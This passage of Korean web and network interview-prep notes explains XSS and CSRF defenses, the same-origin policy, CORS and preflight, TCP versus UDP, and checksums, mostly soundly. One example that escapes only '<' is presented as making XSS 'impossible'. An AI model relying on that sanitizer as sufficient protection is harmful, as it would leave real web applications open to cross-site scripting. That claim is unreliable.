<form action="/transfer" method="POST">
  <input type="hidden" name="csrf_token" value="abc123">
  <input type="text" name="amount">
  <button type="submit">전송</button>
</form>
```

**SameSite 쿠키:**
```http
Set-Cookie: session_id=abc123; SameSite=Strict
→ 다른 사이트에서 요청 시 쿠키 전송 안 됨
```

**실제 공격 시나리오:**

**XSS:**
```
1. 공격자: 게시판에 스크립트 게시
2. 사용자: 게시판 접속
3. 스크립트 실행 → 쿠키 탈취
4. 공격자: 쿠키로 로그인
```

**CSRF:**
```
1. 사용자: 은행 사이트 로그인
2. 공격자: 이메일로 링크 전송
3. 사용자: 링크 클릭 (악의적 요청)
4. 은행: 사용자 권한으로 이체 실행
```

**결론:**
- **XSS**: 스크립트 삽입, 사용자 정보 탈취
- **CSRF**: 요청 위조, 사용자 권한으로 악의적 요청
- **차이**: 공격 방식과 목적이 다름
- **방어**: 각각 다른 방어 방법 필요

### NET-031
Q. XSS는 프론트엔드에서만 막을 수 있나요?

**아니다. XSS는 프론트엔드와 백엔드 모두에서 방어해야 함.**

**방어 계층:**

**1. 백엔드 (서버 측)**
- 입력 검증
- 출력 인코딩
- 최종 방어선

**2. 프론트엔드 (클라이언트 측)**
- 추가 검증
- 사용자 경험
- 보조 방어

**백엔드 방어 (필수):**

**1. 입력 검증:**
```javascript
// 서버 측
function sanitize(input) {
  return input
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;');
}

// 저장 전 검증
const safeInput = sanitize(userInput);
db.save(safeInput);
```

**2. 출력 인코딩:**
```javascript
// 템플릿 엔진 사용
res.render('page', {
  userInput: escape(userInput) // 자동 인코딩
});
```

**3. CSP 헤더:**
```http
Content-Security-Policy: default-src 'self'; script-src 'self'
```

**프론트엔드 방어 (보조):**

**1. 입력 검증:**
```javascript
// 클라이언트 측 (사용자 경험)
function validateInput(input) {
  if (input.includes('<script>')) {
    alert('스크립트는 허용되지 않습니다');
    return false;
  }
  return true;
}
```

**2. 안전한 DOM 조작:**
```javascript
// 위험
element.innerHTML = userInput; // XSS 위험

// 안전
element.textContent = userInput; // 자동 이스케이프
```

**3. 라이브러리 사용:**
```javascript
// DOMPurify 사용
const clean = DOMPurify.sanitize(userInput);
element.innerHTML = clean;
```

```mermaid
graph TD
    A[XSS 방어] --> B[백엔드<br/>필수]
    A --> C[프론트엔드<br/>보조]
    
    B --> D[입력 검증<br/>출력 인코딩<br/>CSP]
    C --> E[입력 검증<br/>안전한 DOM<br/>라이브러리]
    
    D --> F[최종 방어선<br/>신뢰할 수 있음]
    E --> G[사용자 경험<br/>추가 보호]
    
    style B fill:#ff9999
    style C fill:#ffcc99
```

**왜 백엔드가 필수인가:**

**1. 클라이언트는 신뢰할 수 없음**
- 공격자가 프론트엔드 코드 수정 가능
- 브라우저 개발자 도구로 우회 가능
- 네트워크 요청 직접 전송 가능

**2. 다양한 클라이언트**
- 웹 브라우저
- 모바일 앱
- API 클라이언트
- 프론트엔드 방어만으로는 부족

**3. 최종 방어선**
- 서버가 최종 검증
- 모든 요청이 서버를 거침
- 서버 검증이 필수

**실제 방어 전략:**

**다층 방어 (Defense in Depth):**
```
1. 프론트엔드: 입력 검증 (사용자 경험)
2. 백엔드: 입력 검증 (필수)
3. 백엔드: 출력 인코딩 (필수)
4. 브라우저: CSP (추가 보호)
```

**예시:**

**프론트엔드만 방어 (위험):**
```javascript
// 클라이언트만 검증
if (input.includes('<script>')) {
  return false;
}
// → 공격자가 네트워크 요청 직접 전송 가능
// → 서버는 검증 안 함
// → XSS 공격 성공
```

**백엔드 방어 (안전):**
```javascript
// 서버 검증
function sanitize(input) {
  return input.replace(/</g, '&lt;');
}
// → 모든 요청 검증
// → 공격 불가능
```

**결론:**
- **백엔드 방어**: 필수, 최종 방어선
- **프론트엔드 방어**: 보조, 사용자 경험
- **다층 방어**: 둘 다 사용 권장
- **신뢰**: 클라이언트는 신뢰할 수 없음, 서버 검증 필수

---

## 📌 CORS 및 보안 정책

### NET-032
Q. SOP 정책에 대해 설명해 주세요.

**SOP (Same-Origin Policy, 동일 출처 정책)**는 브라우저의 보안 정책으로, 다른 출처의 리소스 접근을 제한.

**정의:**
- 같은 출처(Origin)의 리소스만 접근 가능
- 다른 출처의 리소스 접근 제한
- XSS, CSRF 등 공격 방지

**출처 (Origin) 구성:**
- 프로토콜 (Protocol)
- 도메인 (Domain)
- 포트 (Port)

**출처 비교:**
```
https://example.com:443/page
  ↓
프로토콜: https
도메인: example.com
포트: 443

→ 이 세 가지가 모두 같아야 같은 출처
```

**같은 출처 예시:**
```
https://example.com/page1
https://example.com/page2
→ 같은 출처 (프로토콜, 도메인, 포트 동일)
```

**다른 출처 예시:**
```
https://example.com
http://example.com
→ 다른 출처 (프로토콜 다름)

https://example.com
https://api.example.com
→ 다른 출처 (도메인 다름)

https://example.com
https://example.com:8080
→ 다른 출처 (포트 다름)
```

```mermaid
graph TD
    A[출처 비교] --> B[프로토콜<br/>https vs http]
    A --> C[도메인<br/>example.com vs api.example.com]
    A --> D[포트<br/>443 vs 8080]
    
    B --> E{모두 같음?}
    C --> E
    D --> E
    
    E -->|예| F[같은 출처<br/>접근 허용]
    E -->|아니오| G[다른 출처<br/>접근 제한]
    
    style F fill:#99ff99
    style G fill:#ff9999
```

**SOP가 제한하는 것:**

**1. JavaScript 접근**
```javascript
// 같은 출처
fetch('https://example.com/api/data')
  .then(res => res.json()); // ✅ 가능

// 다른 출처
fetch('https://api.example.com/data')
  .then(res => res.json()); // ❌ CORS 오류
```

**2. Cookie 접근**
```
https://example.com에서 설정한 쿠키
→ https://api.example.com에서 접근 불가
```

**3. LocalStorage 접근**
```
https://example.com의 LocalStorage
→ https://api.example.com에서 접근 불가
```

**SOP가 허용하는 것:**

**1. 리소스 로드**
```html
<!-- 이미지, CSS, 스크립트는 다른 출처에서 로드 가능 -->

<link href="https://other.com/style.css">
<script src="https://other.com/script.js">
```

**2. 폼 제출**
```html
<!-- 폼은 다른 출처로 제출 가능 (CSRF 위험) -->
<form action="https://other.com/submit" method="POST">
```

**SOP의 목적:**

**1. XSS 방지**
- 악성 스크립트가 다른 도메인 데이터 접근 방지
- 쿠키, 세션 보호

**2. CSRF 완화**
- JavaScript로 다른 출처 요청 제한
- (하지만 폼 제출은 여전히 가능)

**3. 데이터 보호**
- 사용자 데이터 보호
- 민감한 정보 접근 제한

**예외 및 우회:**

**1. CORS (Cross-Origin Resource Sharing)**
- 서버가 허용하면 다른 출처 접근 가능
- Access-Control-Allow-Origin 헤더

**2. JSONP**
- `<script>` 태그는 SOP 예외
- 오래된 방법, 보안 위험

**3. 프록시**
- 서버를 통한 우회
- 같은 출처로 요청

**실제 예시:**

**SOP 적용:**
```javascript
// https://example.com에서 실행
fetch('https://api.example.com/data')
  .then(res => res.json())
  .catch(err => {
    // CORS 오류 발생
    console.error('CORS policy blocked');
  });
```

**CORS로 해결:**
```http
# 서버 응답
Access-Control-Allow-Origin: https://example.com
```

**결론:**
- **SOP**: 같은 출처 리소스만 접근 가능
- **출처**: 프로토콜, 도메인, 포트
- **목적**: XSS, CSRF 방지, 데이터 보호
- **제한**: JavaScript 접근, 쿠키, LocalStorage
- **허용**: 리소스 로드, 폼 제출
- **우회**: CORS, JSONP, 프록시

### NET-033
Q. CORS 정책이 무엇인가요?

**CORS (Cross-Origin Resource Sharing)**는 SOP를 완화하여 다른 출처의 리소스 접근을 허용하는 메커니즘.

**정의:**
- 다른 출처의 리소스 접근 허용
- 서버가 명시적으로 허용해야 함
- 브라우저가 검증

**동작 원리:**

**1. 브라우저 요청**
```
클라이언트: https://example.com
요청: https://api.example.com/data
→ 브라우저가 CORS 검증
```

**2. 서버 응답**
```
서버: Access-Control-Allow-Origin 헤더 포함
→ 허용된 출처 명시
```

**3. 브라우저 검증**
```
브라우저: 허용된 출처인지 확인
→ 허용됨 → 요청 성공
→ 거부됨 → CORS 오류
```

```mermaid
sequenceDiagram
    participant C as 클라이언트<br/>example.com
    participant B as 브라우저
    participant S as 서버<br/>api.example.com
    
    C->>B: fetch('api.example.com/data')
    B->>S: 요청 전송 (Origin 헤더 포함)
    S->>B: 응답 (Access-Control-Allow-Origin)
    B->>B: CORS 검증
    alt 허용됨
        B->>C: 데이터 반환
    else 거부됨
        B->>C: CORS 오류
    end
```

**CORS 헤더:**

**요청 헤더 (브라우저가 자동 추가):**
```
Origin: https://example.com
```

**응답 헤더 (서버가 설정):**
```
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: GET, POST, PUT
Access-Control-Allow-Headers: Content-Type
Access-Control-Allow-Credentials: true
```

**CORS 설정:**

**1. 단일 출처 허용:**
```http
Access-Control-Allow-Origin: https://example.com
```

**2. 모든 출처 허용:**
```http
Access-Control-Allow-Origin: *
```

**3. 자격 증명 포함:**
```http
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Credentials: true
```

**Preflight 요청:**

**간단한 요청 (Simple Request):**
- GET, POST, HEAD
- 특정 헤더만
- Preflight 없음

**복잡한 요청 (Preflight Request):**
- PUT, DELETE, PATCH
- 커스텀 헤더
- OPTIONS 요청 먼저 전송

**Preflight 과정:**
```
1. 브라우저: OPTIONS 요청 (Preflight)
2. 서버: 허용 여부 응답
3. 브라우저: 실제 요청 전송
```

**서버 설정 예시:**

**Express.js:**
```javascript
const cors = require('cors');

app.use(cors({
  origin: 'https://example.com',
  credentials: true,
  methods: ['GET', 'POST', 'PUT', 'DELETE']
}));
```

**Nginx:**
```nginx
add_header Access-Control-Allow-Origin https://example.com;
add_header Access-Control-Allow-Methods 'GET, POST, PUT, DELETE';
add_header Access-Control-Allow-Headers 'Content-Type';
add_header Access-Control-Allow-Credentials 'true';
```

**CORS 오류:**

**일반적인 오류:**
```
Access to fetch at 'https://api.example.com/data' 
from origin 'https://example.com' has been blocked by CORS policy
```

**원인:**
- 서버가 CORS 헤더 없음
- 허용되지 않은 출처
- 자격 증명 문제

**해결:**
- 서버에 CORS 헤더 추가
- 올바른 출처 설정
- Preflight 처리

**보안 고려사항:**

**1. 와일드카드 사용 주의**
```
Access-Control-Allow-Origin: *
→ 모든 출처 허용
→ 자격 증명과 함께 사용 불가
→ 보안 위험
```

**2. 자격 증명 포함 시**
```
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Credentials: true
→ 와일드카드 사용 불가
→ 특정 출처만 허용
```

**결론:**
- **CORS**: 다른 출처 리소스 접근 허용 메커니즘
- **동작**: 서버가 명시적으로 허용, 브라우저가 검증
- **헤더**: Access-Control-Allow-Origin 등
- **Preflight**: 복잡한 요청 전 사전 검증
- **보안**: 신중한 출처 설정 필요

### NET-034
Q. Preflight에 대해 설명해 주세요.

**Preflight(사전 요청)**는 CORS에서 복잡한 요청 전에 브라우저가 보내는 OPTIONS 요청.

**정의:**
- 실제 요청 전 사전 검증
- OPTIONS 메서드 사용
- 서버의 허용 여부 확인

**Preflight가 필요한 요청:**

**1. 특정 메서드:**
- PUT
- DELETE
- PATCH

**2. 커스텀 헤더:**
- X-Custom-Header
- Authorization (일부 경우)

**3. Content-Type:**
- application/json
- text/xml

**Preflight가 필요 없는 요청 (Simple Request):**

**1. 메서드:**
- GET
- POST
- HEAD

**2. 헤더:**
- Accept
- Accept-Language
- Content-Language
- Content-Type (특정 값만)

**3. Content-Type:**
- application/x-www-form-urlencoded
- multipart/form-data
- text/plain

```mermaid
sequenceDiagram
    participant C as 클라이언트
    participant B as 브라우저
    participant S as 서버
    
    C->>B: PUT 요청 (커스텀 헤더)
    Note over B: Preflight 필요
    B->>S: OPTIONS 요청 (Preflight)
    S->>B: CORS 허용 응답
    B->>B: 검증 통과
    B->>S: 실제 PUT 요청
    S->>B: 데이터 응답
    B->>C: 데이터 반환
```

**Preflight 과정:**

**1. 브라우저가 OPTIONS 요청 전송:**
```http
OPTIONS /api/data HTTP/1.1
Origin: https://example.com
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: Content-Type, X-Custom-Header
```

**2. 서버가 허용 여부 응답:**
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: GET, POST, PUT, DELETE
Access-Control-Allow-Headers: Content-Type, X-Custom-Header
Access-Control-Max-Age: 86400
```

**3. 브라우저가 실제 요청 전송:**
```http
PUT /api/data HTTP/1.1
Origin: https://example.com
Content-Type: application/json
X-Custom-Header: value

{...}
```

**Preflight 요청 헤더:**

**클라이언트 → 서버:**
```
OPTIONS /api/data HTTP/1.1
Origin: https://example.com
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: Content-Type, X-Custom-Header
```

**서버 → 클라이언트:**
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: PUT, DELETE
Access-Control-Allow-Headers: Content-Type, X-Custom-Header
Access-Control-Max-Age: 86400
```

**Access-Control-Max-Age:**
- Preflight 결과 캐시 시간 (초)
- 86400 = 24시간
- 같은 요청은 캐시된 결과 사용

**실제 예시:**

**Preflight 필요한 요청:**
```javascript
// PUT 요청 + 커스텀 헤더
fetch('https://api.example.com/data', {
  method: 'PUT',
  headers: {
    'Content-Type': 'application/json',
    'X-Custom-Header': 'value'
  },
  body: JSON.stringify({data: 'value'})
});
// → OPTIONS 요청 먼저 전송
```

**Preflight 불필요한 요청:**
```javascript
// GET 요청
fetch('https://api.example.com/data');
// → OPTIONS 없이 바로 GET 요청
```

**서버 구현:**

**Express.js:**
```javascript
// Preflight 처리
app.options('/api/data', (req, res) => {
  res.header('Access-Control-Allow-Origin', 'https://example.com');
  res.header('Access-Control-Allow-Methods', 'PUT, DELETE');
  res.header('Access-Control-Allow-Headers', 'Content-Type');
  res.sendStatus(200);
});
```

**Nginx:**
```nginx
# OPTIONS 요청 처리
if ($request_method = 'OPTIONS') {
    add_header Access-Control-Allow-Origin https://example.com;
    add_header Access-Control-Allow-Methods 'PUT, DELETE';
    add_header Access-Control-Allow-Headers 'Content-Type';
    add_header Access-Control-Max-Age 86400;
    return 204;
}
```

**Preflight 실패:**

**서버가 Preflight 거부:**
```
OPTIONS 요청 → 403 Forbidden
→ 실제 요청 전송 안 됨
→ CORS 오류
```

**서버가 Preflight 응답 없음:**
```
OPTIONS 요청 → 응답 없음
→ 타임아웃
→ CORS 오류
```

**성능 영향:**

**Preflight 오버헤드:**
- 매 요청마다 OPTIONS 요청 추가
- 네트워크 왕복 증가
- Access-Control-Max-Age로 완화

**최적화:**
```
Access-Control-Max-Age: 86400
→ 24시간 동안 Preflight 결과 캐시
→ 같은 요청은 OPTIONS 생략
```

**결론:**
- **Preflight**: 복잡한 요청 전 사전 검증
- **필요 조건**: PUT/DELETE, 커스텀 헤더, JSON 등
- **과정**: OPTIONS 요청 → 서버 응답 → 실제 요청
- **최적화**: Access-Control-Max-Age로 캐싱
- **목적**: 안전한 CORS 요청 보장

---

## 📌 TCP/UDP

### NET-035
Q. TCP와 UDP의 차이에 대해 설명해 주세요.

**TCP (Transmission Control Protocol)**와 **UDP (User Datagram Protocol)**는 전송 계층 프로토콜로, **신뢰성과 성능** 사이의 트레이드오프를 다르게 선택.

**주요 차이점:**

| 구분 | TCP | UDP |
|------|-----|-----|
| **연결 방식** | 연결 지향 (Connection-oriented) | 비연결 (Connectionless) |
| **신뢰성** | 보장 (재전송, 순서 보장) | 보장 안 함 |
| **전송 순서** | 보장 | 보장 안 함 |
| **흐름 제어** | 있음 (슬라이딩 윈도우) | 없음 |
| **혼잡 제어** | 있음 | 없음 |
| **헤더 크기** | 20바이트 (최소) | 8바이트 |
| **전송 속도** | 상대적으로 느림 | 빠름 |
| **오버헤드** | 큼 | 작음 |
| **용도** | 파일 전송, 웹, 이메일 | 스트리밍, 게임, DNS |

```mermaid
graph TD
    A[전송 계층 프로토콜] --> B[TCP<br/>신뢰성 우선]
    A --> C[UDP<br/>성능 우선]
    
    B --> D[연결 지향<br/>3-Way Handshake]
    B --> E[재전송 보장<br/>순서 보장]
    B --> F[흐름 제어<br/>혼잡 제어]
    B --> G[느리지만 안정적]
    
    C --> H[비연결<br/>즉시 전송]
    C --> I[재전송 없음<br/>순서 보장 없음]
    C --> J[흐름 제어 없음<br/>혼잡 제어 없음]
    C --> K[빠르지만 불안정]
    
    style B fill:#99ff99
    style C fill:#ffcc99
```

**TCP 특징:**

**1. 연결 지향**
- 통신 전에 연결 설정 (3-Way Handshake)
- 통신 후 연결 해제 (4-Way Handshake)

**2. 신뢰성 보장**
- 패킷 손실 시 재전송
- 패킷 순서 보장
- 중복 제거

**3. 흐름 제어**
- 수신자의 버퍼 크기에 맞춰 전송 속도 조절
- 슬라이딩 윈도우 방식

**4. 혼잡 제어**
- 네트워크 혼잡 시 전송 속도 조절
- AIMD, Slow Start 등

**UDP 특징:**

**1. 비연결**
- 연결 설정 없이 즉시 전송
- 오버헤드 최소화

**2. 신뢰성 없음**
- 패킷 손실 가능
- 순서 보장 없음
- 중복 가능

**3. 빠른 전송**
- 헤더가 작음 (8바이트)
- 오버헤드가 적음
- 지연 시간이 짧음

**사용 사례:**

**TCP 사용:**
- **웹 브라우징** (HTTP/HTTPS)
- **파일 전송** (FTP)
- **이메일** (SMTP)
- **원격 접속** (SSH, Telnet)
- **데이터베이스 연결**

**UDP 사용:**
- **DNS 쿼리** (빠른 응답 필요)
- **실시간 스트리밍** (비디오, 오디오)
- **온라인 게임** (낮은 지연 시간)
- **VoIP** (음성 통화)
- **DHCP** (로컬 네트워크)

```mermaid
graph LR
    A[애플리케이션 요구사항] --> B{신뢰성 중요?}
    B -->|예| C[TCP 선택<br/>웹, 파일 전송]
    B -->|아니오| D{속도/지연 중요?}
    D -->|예| E[UDP 선택<br/>게임, 스트리밍]
    D -->|아니오| C
    
    style C fill:#99ff99
    style E fill:#ffcc99
```

**비유:**
- **TCP**: 등기 우편 (확인서 필요, 순서 보장, 느리지만 안전)
- **UDP**: 일반 우편 (확인서 없음, 순서 보장 없음, 빠르지만 불안정)

**결론:**
- **TCP**: 신뢰성이 중요한 경우 (웹, 파일 전송)
- **UDP**: 속도와 지연 시간이 중요한 경우 (게임, 스트리밍)
- **선택 기준**: 애플리케이션의 요구사항에 따라 결정

### NET-036
Q. Checksum이 무엇인가요?

**Checksum(체크섬)**은 데이터의 **무결성(Integrity)**을 검증하기 위해 사용하는 값.

**목적:**
- 데이터 전송 중 오류 발생 여부 확인
- 데이터가 손상되었는지 검증
- 무결성 보장

**동작 원리:**

1. **송신 측**
   - 전송할 데이터를 기반으로 체크섬 계산
   - 데이터와 함께 체크섬 전송

2. **수신 측**
   - 수신한 데이터로 체크섬 재계산
   - 수신한 체크섬과 비교
   - 일치하면 정상, 불일치하면 오류

```mermaid
graph LR
    A[원본 데이터] --> B[Checksum 계산]
    B --> C[데이터 + Checksum 전송]
    C --> D[수신]
    D --> E[수신 데이터로<br/>Checksum 재계산]
    D --> F[수신한 Checksum]
    E --> G{일치?}
    F --> G
    G -->|예| H[✅ 정상]
    G -->|아니오| I[❌ 오류 감지]
    
    style H fill:#99ff99
    style I fill:#ff9999
```

**계산 방법:**

**1. 단순 합산 (Simple Sum)**
```
데이터: 0x12, 0x34, 0x56
Checksum = 0x12 + 0x34 + 0x56 = 0x9C
```

**2. 1의 보수 합 (One's Complement Sum)**
- TCP/UDP에서 사용
- 모든 바이트를 더한 후 1의 보수 취함

**3. CRC (Cyclic Redundancy Check)**
- 이더넷에서 사용
- 다항식 나눗셈 기반

**예시:**

**TCP Checksum 계산:**
```
의사 헤더 + TCP 헤더 + 데이터
→ 모든 16비트 단어를 더함
→ 오버플로우 발생 시 다시 더함
→ 1의 보수 취함
→ Checksum 완성
```

**특징:**

**장점:**
- 간단하고 빠른 계산
- 하드웨어로 구현 가능
- 오류 감지율이 높음 (일반적으로 99% 이상)

**단점:**
- 오류 정정 불가 (오류 감지만 가능)
- 의도적인 변조는 감지하지 못할 수 있음 (보안 목적에는 부적합)

**사용 위치:**

1. **TCP 헤더**: TCP 세그먼트의 무결성 검증
2. **UDP 헤더**: UDP 데이터그램의 무결성 검증
3. **IP 헤더**: IP 패킷 헤더의 무결성 검증
4. **이더넷 프레임**: CRC로 프레임 무결성 검증

```mermaid
graph TD
    A[네트워크 계층] --> B[각 계층별 Checksum]
    B --> C[이더넷<br/>CRC]
    B --> D[IP<br/>Header Checksum]
    B --> E[TCP/UDP<br/>Checksum]
    
    C --> F[프레임 무결성]
    D --> G[IP 헤더 무결성]
    E --> H[전송 데이터 무결성]
    
    style E fill:#ff9999
```

**오류 감지 능력:**
- 단일 비트 오류: 100% 감지
- 다중 비트 오류: 대부분 감지
- 순서 변경: 감지하지 못할 수 있음

**결론:**
- **Checksum**: 데이터 무결성 검증을 위한 값
- **목적**: 전송 중 오류 감지
- **특징**: 오류 감지는 가능하지만 정정은 불가
- **사용**: TCP, UDP, IP 등 여러 프로토콜에서 사용

### NET-037
Q. TCP와 UDP 중 어느 프로토콜이 Checksum을 수행할까요?

**둘 다 Checksum을 수행함.** TCP와 UDP 모두 헤더에 Checksum 필드를 가지고 있음.

**TCP Checksum:**
- **위치**: TCP 헤더의 16비트 Checksum 필드
- **범위**: 의사 헤더(Pseudo Header) + TCP 헤더 + 데이터
- **의무**: 필수 (옵션이 아님)

**UDP Checksum:**
- **위치**: UDP 헤더의 16비트 Checksum 필드
- **범위**: 의사 헤더(Pseudo Header) + UDP 헤더 + 데이터
- **의무**: 선택적 (IPv4에서는 선택, IPv6에서는 필수)

```mermaid
graph TD
    A[전송 계층 프로토콜] --> B[TCP]
    A --> C[UDP]
    
    B --> D[Checksum 필수<br/>항상 수행]
    C --> E[Checksum 선택적<br/>IPv4: 선택<br/>IPv6: 필수]
    
    D --> F[의사 헤더 +<br/>TCP 헤더 + 데이터]
    E --> G[의사 헤더 +<br/>UDP 헤더 + 데이터]
    
    style D fill:#ff9999
    style E fill:#ffcc99
```

**의사 헤더 (Pseudo Header):**

TCP와 UDP Checksum 계산 시 IP 헤더의 일부 정보를 포함:
- 소스 IP 주소
- 목적지 IP 주소
- 프로토콜 번호 (TCP: 6, UDP: 17)
- 길이 (TCP/UDP 헤더 + 데이터)

**목적**: IP 레벨에서의 오류도 감지

**UDP Checksum의 특수성:**

**IPv4에서:**
- Checksum 필드가 0이면 Checksum을 수행하지 않음
- 성능 최적화를 위해 일부 애플리케이션에서 비활성화 가능
- 하지만 권장하지 않음

**IPv6에서:**
- Checksum이 필수
- IP 헤더에 Checksum이 없어서 UDP에서 보완

**비교:**

| 구분 | TCP | UDP |
|------|-----|-----|
| **Checksum** | 항상 수행 (필수) | IPv4: 선택, IPv6: 필수 |
| **계산 범위** | 의사 헤더 + TCP 헤더 + 데이터 | 의사 헤더 + UDP 헤더 + 데이터 |
| **오류 처리** | 재전송 | 폐기 (애플리케이션에 알림 없음) |

**실제 동작:**

**TCP:**
```
1. Checksum 계산
2. 전송
3. 수신 측에서 Checksum 검증
4. 오류 발견 시 세그먼트 폐기 및 재전송 요청
```

**UDP:**
```
1. Checksum 계산 (선택적)
2. 전송
3. 수신 측에서 Checksum 검증
4. 오류 발견 시 데이터그램 폐기 (애플리케이션에 알림 없음)
```

**결론:**
- **TCP**: Checksum 필수, 항상 수행
- **UDP**: Checksum 선택적 (IPv4) 또는 필수 (IPv6)
- **둘 다**: 의사 헤더를 포함하여 계산
- **차이**: TCP는 오류 시 재전송, UDP는 폐기만 수행

### NET-038
Q. 그렇다면, Checksum을 통해 오류를 정정할 수 있나요?

**아니다. Checksum은 오류를 감지만 할 수 있고, 정정은 불가능함.**

**Checksum의 한계:**

1. **오류 감지만 가능**
   - Checksum은 데이터가 손상되었는지만 확인
   - 어떤 비트가 잘못되었는지 알 수 없음
   - 따라서 정정 불가능

2. **정보 부족**
   - Checksum은 데이터의 요약 정보만 제공
   - 원본 데이터를 복구할 정보가 없음

```mermaid
graph TD
    A[데이터 전송] --> B[오류 발생]
    B --> C[Checksum 검증]
    C --> D{일치?}
    D -->|예| E[✅ 정상]
    D -->|아니오| F[❌ 오류 감지]
    F --> G[오류 위치 알 수 없음]
    G --> H[정정 불가능]
    H --> I[재전송 요청<br/>또는 폐기]
    
    style F fill:#ff9999
    style H fill:#ff9999
```

**오류 정정이 필요한 경우:**

**1. 재전송 (TCP)**
- Checksum 오류 감지 시 세그먼트 재전송 요청
- 수신 측이 송신 측에 재전송 요청
- 원본 데이터를 다시 전송

**2. 폐기 (UDP)**
- Checksum 오류 감지 시 데이터그램 폐기
- 애플리케이션 레벨에서 처리 필요

**오류 정정 코드 (Error Correction Code):**

오류를 정정하려면 Checksum 대신 **오류 정정 코드**가 필요:

**1. 해밍 코드 (Hamming Code)**
- 단일 비트 오류 정정 가능
- 다중 비트 오류는 감지만 가능

**2. 리드-솔로몬 코드 (Reed-Solomon Code)**
- 다중 비트 오류 정정 가능
- CD, DVD, QR 코드 등에서 사용

**3. 순환 중복 검사 (CRC)**
- 오류 감지용 (정정 불가)
- 이더넷에서 사용

```mermaid
graph LR
    A[오류 처리 방법] --> B[Checksum<br/>오류 감지만]
    A --> C[오류 정정 코드<br/>오류 정정 가능]
    
    B --> D[재전송 필요<br/>TCP 방식]
    B --> E[폐기<br/>UDP 방식]
    
    C --> F[해밍 코드<br/>단일 비트 정정]
    C --> G[리드-솔로몬<br/>다중 비트 정정]
    
    style B fill:#ff9999
    style C fill:#99ff99
```

**비교:**

| 구분 | Checksum | 오류 정정 코드 |
|------|----------|---------------|
| **오류 감지** | 가능 | 가능 |
| **오류 정정** | 불가능 | 가능 |
| **오버헤드** | 작음 | 큼 |
| **사용** | TCP, UDP | 무선 통신, 저장 장치 |

**실제 사용:**

**네트워크 프로토콜:**
- **Checksum**: 오류 감지 후 재전송 (TCP) 또는 폐기 (UDP)
- 오류 정정 코드는 사용하지 않음 (오버헤드가 큼)

**무선 통신:**
- **오류 정정 코드**: 무선 채널의 높은 오류율 대응
- 예: Wi-Fi, 셀룰러 네트워크

**결론:**
- **Checksum**: 오류 감지만 가능, 정정 불가능
- **오류 처리**: 재전송 (TCP) 또는 폐기 (UDP)
- **오류 정정**: 별도의 오류 정정 코드 필요 (네트워크에서는 사용 안 함)

### NET-039
Q. TCP가 신뢰성을 보장하는 방법에 대해 설명해 주세요.

**TCP는 여러 메커니즘을 통해 신뢰성을 보장:**

**1. 순서 번호 (Sequence Number)**
- 각 바이트에 고유한 순서 번호 부여
- 수신 측에서 순서대로 재조립
- 순서가 맞지 않으면 버퍼에 저장 후 대기

**2. 확인 응답 (Acknowledgment, ACK)**
- 수신 측이 데이터를 받으면 ACK 전송
- ACK 번호 = 다음에 기대하는 순서 번호
- ACK가 오지 않으면 재전송

**3. 재전송 (Retransmission)**
- ACK가 일정 시간 내에 오지 않으면 재전송
- RTO (Retransmission Timeout) 기반
- 중복 ACK 기반 빠른 재전송 (Fast Retransmit)

**4. 중복 제거 (Duplicate Detection)**
- 순서 번호로 중복 패킷 감지
- 이미 받은 패킷은 폐기

**5. Checksum**
- 데이터 무결성 검증
- 오류 발견 시 세그먼트 폐기 및 재전송

```mermaid
sequenceDiagram
    participant S as 송신자
    participant R as 수신자
    
    S->>R: Seq=100, Data (100 bytes)
    R->>S: ACK=200 (다음 기대 번호)
    S->>R: Seq=200, Data (100 bytes)
    R->>S: ACK=300
    
    Note over S,R: 패킷 손실 발생
    S->>R: Seq=300, Data (100 bytes)
    Note over S: Timeout (ACK 없음)
    S->>R: Seq=300, Data (100 bytes) [재전송]
    R->>S: ACK=400
```

**상세 메커니즘:**

**1. 순서 번호와 확인 응답:**

```
송신: Seq=100, Len=100 → 데이터 전송
수신: ACK=200 → 100~199까지 받음, 다음은 200 기대
```

**2. 재전송 타이머 (RTO):**

```
1. 데이터 전송
2. 재전송 타이머 시작
3. ACK 수신 → 타이머 중지
4. 타이머 만료 → 재전송
5. RTO 값 조정 (RTT 기반)
```

**3. 빠른 재전송 (Fast Retransmit):**

```
1. 패킷 N 손실
2. 수신자가 패킷 N+1, N+2, N+3 수신
3. 각각에 대해 ACK=N 전송 (중복 ACK)
4. 송신자가 중복 ACK 3개 수신
5. 패킷 N 즉시 재전송 (타이머 기다리지 않음)
```

**4. 슬라이딩 윈도우:**

```
송신 윈도우: 전송 가능한 데이터 범위
수신 윈도우: 수신 가능한 버퍼 크기

윈도우 크기 = min(송신 윈도우, 수신 윈도우)
```

```mermaid
graph LR
    A[신뢰성 보장 메커니즘] --> B[순서 번호<br/>순서 보장]
    A --> C[ACK<br/>수신 확인]
    A --> D[재전송<br/>손실 복구]
    A --> E[중복 제거<br/>중복 방지]
    A --> F[Checksum<br/>무결성 검증]
    
    B --> G[바이트 단위<br/>순서 번호]
    C --> H[누적 ACK<br/>다음 기대 번호]
    D --> I[RTO 타이머<br/>Fast Retransmit]
    E --> J[순서 번호<br/>기반 감지]
    F --> K[데이터 무결성<br/>검증]
    
    style A fill:#ff9999
```

**흐름 제어와의 관계:**

**흐름 제어 (Flow Control):**
- 수신자의 버퍼 크기에 맞춰 전송 속도 조절
- 수신 윈도우 크기로 제어

**혼잡 제어 (Congestion Control):**
- 네트워크 혼잡 상황에 맞춰 전송 속도 조절
- 혼잡 윈도우 크기로 제어

**실제 동작 예시:**

**정상 전송:**
```
송신: Seq=100, Data[100 bytes]
수신: ACK=200 (100~199 수신 완료)
송신: Seq=200, Data[100 bytes]
수신: ACK=300 (200~299 수신 완료)
```

**패킷 손실 및 재전송:**
```
송신: Seq=100, Data[100 bytes]
수신: ACK=200
송신: Seq=200, Data[100 bytes] [손실]
송신: Seq=300, Data[100 bytes]
수신: ACK=200 (200 기대, 300은 버퍼에 저장)
송신: [Timeout] Seq=200, Data[100 bytes] [재전송]
수신: ACK=400 (200~399 수신 완료)
```

**결론:**
- **순서 번호**: 데이터 순서 보장
